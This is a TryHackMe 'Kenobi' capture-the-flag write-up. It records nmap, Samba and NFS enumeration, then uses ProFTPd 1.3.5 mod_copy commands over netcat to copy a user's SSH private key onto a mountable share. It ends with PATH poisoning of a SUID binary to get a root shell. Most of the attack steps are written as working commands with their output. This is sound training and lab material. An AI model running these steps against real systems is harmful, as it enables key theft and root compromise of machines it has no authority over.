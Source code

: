 ```yaml
---
layout: md
title: TryHackMe Kenobi Room
description: Notes on tryhackme.com's kenobi challenge
tags: ['security', 'tryhackme']
categories: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

[TryHackMe ~ Kenobi](https://tryhackme.com/room/kenobi)

Includes:
- Recon
  - nmap
  - samba enumeration
  - nfs scans
- Exploit
  - netcat
  - searchsploit
- Privilege esculation
  - SUID binaries
  - PATH poisoning

### Recon

#### Nmap 
Port and service scan:
```bash
nmap -sV -sC <ip> -oX nmap-service-scan.xml | tee nmap-sevice-scan.txt 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:42 BST

Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
    [... removed ...]
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m01s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2021-04-22T04:43:37-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-22T09:43:38
|_  start_date: N/A
```

Samba share enum:
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-22 10:47 BST
Nmap scan report for 10.10.11.75
Host is up (0.57s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.11.75\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.11.75\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.11.75\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

nfs scan:
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```
Shows /var can be mounted via nfs.

#### Samba
Connect:
```bash
smbclient //<ip>/anonymous
```

Recursive download:
```bash
smbget -R smb://<ip>/anonymous
```
This gave a `log.txt` with some information about usernames, ssh key locations and the ftp service.

#### Searchspoilt
```bash
searchsploit proftp 1.3.5 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------ ---------------------------------

searchsploit -p linux/remote/36742.txt
```
linux/remote/36742.txt shows an example of using nc and ProFTPd 1.3.5 to copy files.

### Exploitation

#### Netcat -> ProFTPd File copy
We know the location of the ssh key from `log.txt` and a nfs location of `/var`.

```bash
nc 10.10.11.75 21                        
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.11.75]

SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

#### Retrieving key
```
mkdir /mnt/kenobi
mount <ip>:/var /mnt/kenobi
cp /mnt/kenobi/tmp/id_rsa .
```

#### Using Key
```
chmod 600 id_rsa
ssh -i ./id_rsa kenobi@<ip>
```
and we are in!

#### Privilege Esculation

#### Searching for root suid binaries
```
find / -perm -u=s -type f 2>/dev/null

```
This find typical binaries and files like ping, sudo etc and `/usr/bin/menu`

#### Exploiting this

Running `/usr/bin/menu` brings up 3 options that just look like preconfigured system commands.
```
strings /usr/bin/menu

curl -I localhost
uname -r
ifconfig
```
These are the commands that are being used and would be run as root, they don't specify a full path so we can exploit these using the PATH variable to redirect the issued command to our own binary that will be run as root.

```
cd /tmp
echo /bin/sh > curl
chmod 777 curl
PATH=/tmp:$PATH; /usr/bin/menu
```
Run the curl command via the menu binary and `#`, root shell!





